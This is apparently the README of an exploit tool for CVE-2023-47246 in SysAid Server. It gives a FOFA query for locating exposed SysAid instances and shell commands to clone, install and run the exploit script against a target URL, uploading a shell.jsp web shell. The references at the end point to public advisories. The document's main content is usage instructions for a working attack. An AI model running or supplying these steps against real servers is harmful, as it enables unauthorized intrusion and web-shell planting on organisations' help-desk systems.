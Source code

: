 # Vulnerability Details

1. fofa:

   ```text
   body="sysaid-logo-dark-green.png" || title="SysAid Help Desk Software" || body="Help Desk software <a href=\"http://www.sysaid.com\">by SysAid</a>"
   ```

2. Affected versions: SysAid Server<23.3.36

# Vulnerability Recurrence

1. Execute the script:

   ```shell
   git clone https://github.com/W01fh4cker/CVE-2023-47246-EXP.git
   cd CVE-2023-47246-EXP
   pip install -r requirements.txt
   python CVE-2023-47246-EXP.py -u http://192.168.161.190:8443 -p http://127.0.0.1:8083 -f shell.jsp
   ```

2. result:![](https://github.com/W01fh4cker/CVE-2023-47246-EXP/assets/101872898/690d6a3c-b5ce-45bb-b37a-7d5ca72b13ab)

# Reference

https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2023/CVE-2023-47246.yaml  
https://www.huntress.com/blog/critical-vulnerability-sysaid-cve-2023-47246  
https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification  
https://www.zscaler.com/blogs/security-research/coverage-advisory-cve-2023-47246-sysaid-zero-day-vulnerability

